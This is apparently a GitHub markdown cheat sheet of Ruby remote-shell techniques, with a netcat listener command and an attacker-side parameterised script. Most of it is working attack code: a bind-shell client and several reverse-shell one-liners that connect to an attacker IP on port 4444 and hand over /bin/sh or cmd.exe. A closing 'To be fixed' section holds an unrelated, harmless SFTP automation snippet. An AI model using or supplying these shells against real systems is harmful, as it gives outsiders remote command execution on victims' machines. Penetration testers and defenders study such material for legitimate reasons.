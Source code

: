 # Remote Shell

> **Note:** For windows systems, replace the "/bin/sh" to "cmd.exe"

## Connect to Bind shell
from terminal
```ruby
ruby -rsocket -e's=TCPSocket.new("VictimIP",4444);loop do;cmd=gets.chomp;s.puts cmd;s.close if cmd=="exit";puts s.recv(1000000);end'
```
</br>
since `192.168.0.15` is the victim IP

## Reverse shell
Attacker is listining on port 4444 `nc -lvp 4444`. Now on victim machine run
```ruby
ruby -rsocket -e's=TCPSocket.open("192.168.0.13",4444).to_i;exec sprintf("/bin/sh -i <&%d >&%d 2>&%d",s,s,s)'
```
</br>
if you don't whant to rely on `/bin/sh`
```ruby
ruby -rsocket -e 'exit if fork;c=TCPSocket.new("192.168.0.13","4444");while(cmd=c.gets);IO.popen(cmd,"r"){|io|c.print io.read}end'
```
</br>
if you don't whant to rely on `cmd.exe`
```ruby
ruby -rsocket -e 'c=TCPSocket.new("192.168.0.13","4444");while(cmd=c.gets);IO.popen(cmd,"r"){|io|c.print io.read}end'
```
</br>
since `192.168.0.13` is the attacker IP

If you what it as more flixable script file

```ruby
#!/usr/bin/env ruby
require 'socket'
if ARGV[0].nil? || ARGV[1].nil?
    puts "ruby #{__FILE__}.rb [HACKER_IP HACKER_PORT]\n\n"
    exit
end
ip, port = ARGV
s = TCPSocket.open(ip,port).to_i
exec sprintf("/bin/sh -i <&%d >&%d 2>&%d",s,s,s)
```


## Pseudo Terminal (PTY)
To be fixed
```ruby
# https://gist.github.com/kwent/e2c34c2dfd01a194a49a
# http://ruby-doc.org/stdlib-2.2.0/libdoc/pty/rdoc/PTY.html

require 'pty'
require 'expect'
PTY.spawn('sftp username@sftp.domain.com:/uploads') do |input, output|
  # Say yes to SSH fingerprint
  input.expect(/fingerprint/, 2) do |r|
    output.puts "yes" if !r.nil?
    # Enter SFTP password
    input.expect(/password/, 2) do |r|
      output.puts 'your_sftp_password' if !r.nil?
      input.expect(/sftp/) do
        # List folders and files in `/uploads`
        output.puts 'ls'
        # Check if folder named `foo` exist
        input.expect(/foo/, 1) do |result|
          is_folder_exist = result.nil? ? false : true
          # Create `foo` folder if does'nt exist
          output.puts "mkdir foo" if !is_folder_exist
          # Change directory to `foo`
          output.puts "cd foo"
          # Upload `/path/to/local/foo.txt` in `foo` folder as `foo.txt`
          output.puts "put /path/to/local/foo.txt foo.txt"
          # Exit SFTP
          output.puts "exit"
        end
      end
    end
  end
end
```


